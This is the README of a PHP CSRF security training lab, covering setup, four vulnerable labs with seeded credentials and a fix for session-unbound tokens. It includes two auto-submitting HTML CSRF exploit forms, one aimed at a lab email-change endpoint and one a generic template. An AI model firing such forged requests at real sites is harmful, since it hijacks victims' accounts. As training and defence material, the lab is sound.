





<!-- SEO Meta (GitHub renders these as invisible comments, but crawlers index the text content below) -->
<!--
  CSRF Security Lab | Cross-Site Request Forgery | Web Security | Penetration Testing | PHP MVC | Tailwind CSS
  Author: ali waled | Educational Cybersecurity Lab | CSRF Exploit Practice | Web Application Security
-->

<div align="center">



<br/>
<br/>

# 🛡️ CSRF Security Lab

### Cross-Site Request Forgery — Practical Exploitation & Defense

<p>
  A hands-on security sandbox for learning, practicing, and mastering<br/>
  <strong>Cross-Site Request Forgery (CSRF)</strong> attacks in a safe, legal environment.
</p>

<br/>
</div>

## 📌 Overview

**CSRF Security Lab** is an open-source, self-hosted web security training environment built for:

- 🎓 **Students** learning web application security fundamentals
- 🔍 **Penetration testers** sharpening their CSRF exploitation skills
- 🛠️ **Developers** understanding how CSRF vulnerabilities appear in real code

Each lab simulates a real-world vulnerable scenario, walking you through **multiple CSRF attack types and protection bypass techniques** — from the simplest missing-token cases to advanced attack chains.

> 💡 **Built-in Solutions** — Every lab ships with a reveal-on-demand solution so you can always understand the full attack context, even when you're stuck.

---

## 🛠️ Tech Stack

The entire lab environment was built from scratch using:

| Technology | Role |
|------------|------|
| **PHP (MVC Architecture)** | Backend — routing, controllers, models, session & token handling |
| **Tailwind CSS** | Frontend — responsive, dark-themed UI |
| **MySQL** | Database — user accounts, lab state, token storage |
| **HTML / Vanilla JS** | Exploit payloads & interactive lab UI |

> The MVC structure mirrors how real production applications are built — making the vulnerability demonstrations as realistic as possible.

---

## 🗄️ Database Setup

> ⚠️ **Required before running any lab** — the database must be imported first for login to work.

The project includes a pre-built SQL file (`csrf.sql`) in the root of the repository. You **must import it** into your MySQL server before attempting to log in to any lab.

### Steps

**1. Create a new database:**
```sql
CREATE DATABASE csrf;
```

**2. Import the SQL file:**

Using terminal:
```bash
mysql -u root -p csrf < csrf.sql
```

Using phpMyAdmin:
- Select your database → click **Import** → choose `csrf.sql` → click **Go**

**3. Configure the connection** in the project's config file:
```php
DB_NAME=csrf
DB_HOST=localhost
DB_USERNAME=root
DB_PASSWORD=password
DB_CHARSET=utf8mb4
```

**4. Done** — you can now log in to all labs using the credentials below.

> 💡 The `csrf.sql` file contains all required tables and pre-seeded user accounts — no manual data entry needed.

---

## 🧪 Labs

> 🔒 Each lab targets a **different exploitation type** — ranging from completely unprotected endpoints to more sophisticated protection bypass methods. New labs are added continuously.

---

### 🔬 Lab 1

<div align="center">

</div>

<br/>

| | |
|--|--|
| 📁 **Folder** | `lab-1` |
| 🎯 **Focus** | CSRF Basic |
| ✅ **Status** | Available |
| 🔑 **Credentials** | `csrf@lab.com` / `csrf` |

---

### 🔬 Lab 2

<div align="center">

</div>

<br/>

| | |
|--|--|
| 📁 **Folder** | `lab-2` |
| 🎯 **Focus** | CSRF Basic — GET Method Bypass |
| ✅ **Status** | Available |
| 🔑 **Credentials** | `csrf@lab.com` / `csrf` |

---

### 🔬 Lab 3

<div align="center">

</div>

<br/>

| | |
|--|--|
| 📁 **Folder** | `lab-3` |
| 🎯 **Focus** | CSRF Bypass by Omitting the CSRF Token |
| ✅ **Status** | Available |
| 🔑 **Credentials** | `csrf@lab.com` / `csrf` |

---

### 🔬 Lab 4

<div align="center">

</div>

<br/>

| | |
|--|--|
| 📁 **Folder** | `lab-4` |
| 🎯 **Focus** | CSRF where token is not tied to user session |
| ✅ **Status** | Available |
| 🔑 **Victim Account** | `victim@lab.com` / `csrf` |
| 🔑 **Attacker Account** | `attacker@lab.com` / `attacker` |

---

#### 🔍 How the Vulnerability Works

Most CSRF protections rely on a token — a random value embedded in the form that the server checks before processing the request. The assumption is: *only the legitimate user can produce a valid token because it's tied to their session.*

But what if the server **generates valid tokens independently of any session**?

That's exactly what this lab demonstrates. The application:
1. Issues CSRF tokens that are **valid globally** — not bound to the session that requested them
2. Never verifies that the token presented matches the session making the request
3. Only checks: *"Is this a valid token?"* — not: *"Does this token belong to this user?"*

This means an attacker can:
- Log in with their **own account**
- Intercept or extract a **valid CSRF token** from their own session
- Embed that token into a malicious page
- Trick the **victim** into loading that page
- The victim's browser submits the request with **their session cookies + the attacker's valid token**
- The server accepts it ✅

---

#### 🎯 Attack Objective

Change the **victim's email address** by forging a request that includes:
- The victim's authenticated session (automatically sent by the browser via cookies)
- A valid CSRF token stolen from the **attacker's own session**

---

#### 🧪 Exploit Template

```html
<!--
    CSRF Lab Demonstration
    Create a legitimate email change request and intercept it.
    Convert the request into a CSRF proof-of-concept using the lab tooling.
    The CSRF token used in this request must be fresh and unused.
    Since tokens are single-use, a previously consumed token will fail validation.
-->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit PoC</title>
</head>
<body>
    <form id="csrfForm" action="http://localhost/update-email" method="POST">
        <input type="hidden" name="csrf" value="TOKEN_ATTACKER">
        <input type="hidden" name="email" value="attacker@lab.com" />
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

> Replace the `TOKEN_ATTACKER` value with the attacker's value.
---

#### 🛡️ How to Fix This Vulnerability

The correct mitigation is to **tie every CSRF token to a specific user session**:

| ❌ Vulnerable Pattern | ✅ Secure Pattern |
|---|---|
| Token stored in a global pool | Token stored in `$_SESSION['csrf_token']` |
| Server checks: *"does this token exist?"* | Server checks: *"does this token match the current session?"* |
| Any valid token works for any user | Token is invalidated when the session ends |

**Recommended fix in PHP:**

```php
// On form generation
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));

// On form submission
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    http_response_code(403);
    die('CSRF validation failed');
}
```

Additional hardening:
- Use `SameSite=Strict` or `SameSite=Lax` on session cookies
- Rotate the CSRF token after every successful form submission
- Validate the `Origin` or `Referer` header as a secondary check

---

---

## 🚀 How to Use

### Step 1 — Login
Navigate to the lab and sign in using the credentials above.

### Step 2 — Read the Objective
Each lab displays:
- The vulnerable feature being targeted
- Your goal as the attacker
- Optional hints to guide your approach

### Step 3 — Craft Your Exploit
Build a CSRF payload tailored to the lab's vulnerability. A typical base payload looks like:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CSRF PoC</title>
</head>
<body>
  <form id="csrfForm"
        action="http://TARGET/vulnerable-endpoint"
        method="POST"
        style="display:none;">
    <input type="hidden" name="param" value="malicious-value">
  </form>
  <script>
    document.getElementById('csrfForm').submit();
  </script>
</body>
</html>
```

> Each lab has a different target endpoint and parameters — adapt accordingly.

---

### Step 4 — Reveal the Solution
Stuck? Hit the **💡 Solution** button inside the lab to reveal the full working exploit and a detailed explanation of why the vulnerability exists and how the attack works.

---

## 🎯 Learning Objectives

After completing all labs, you will be able to:

- ✅ Explain what CSRF is and how it differs from XSS or SQLi
- ✅ Identify CSRF vulnerabilities in real PHP MVC applications
- ✅ Craft working exploits for various CSRF scenarios
- ✅ Bypass common (and flawed) CSRF protection implementations
- ✅ Understand and apply proper mitigations: tokens, `SameSite` cookies, `Origin` validation

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational purposes**.
>
> All testing must be performed **only within this sandbox environment**.
>
> Performing CSRF attacks against real systems **without explicit written permission is illegal** and unethical.
>
> The author assumes **no responsibility** for any misuse of the content in this repository.

---

## 👤 Author

<div align="center">

<br/>

**ali waleed**

*Security Researcher & Lab Creator*

<br/>

</div>

---

<div align="center">

⭐ If this lab helped you — consider giving it a star!

<br/>

*Made with ❤️ for the security community*

<br/>

**Keywords:** `CSRF` `Web Security` `Penetration Testing` `PHP MVC` `Tailwind CSS` `Ethical Hacking` `Bug Bounty` `Web Vulnerabilities` `CTF` `Security Lab`

</div>
